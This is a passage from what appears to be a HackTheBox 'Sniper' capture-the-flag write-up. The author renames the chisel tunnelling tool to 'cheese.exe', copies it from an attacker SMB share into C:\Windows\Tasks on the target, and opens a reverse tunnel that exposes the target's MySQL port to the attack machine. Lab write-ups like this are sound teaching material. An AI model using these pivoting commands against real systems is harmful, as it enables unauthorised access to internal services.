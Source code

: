 
I start by forwarding port `3306`, to do that I use my go to which is [chisel](https://github.com/jpillora/chisel). In the latest releases link, I select the `chisel_1.9.1_windows_amd64.gz` package for our target, and downlaod it to my attack machine, I use `gunzip` to extract it and rename it to `cheese.exe`. 


Then, I transfer it over to the `C:\\Windows\Tasks` directory on target using our SMB server, same as before:

```cmd
copy \\10.10.14.63\s\cheese.exe .
```

At this point I start the chisel server on my attack machine with:

```bash
chisel server -p 4545 --reverse
```

And connect from the target to my server and tunnel port 3306:

```cmd
.\cheese.exe client 10.10.14.63:4545 R:3306:127.0.0.1:3306
```

On my server I get the connection and the tunnel is established:

![tunel-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/tunnel-26.png)


Now I access the SQL server from my attack machine as such:

```bash
mysql -u dbuser -D sniper -p -P 3306
```

![db-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/db-27.png)
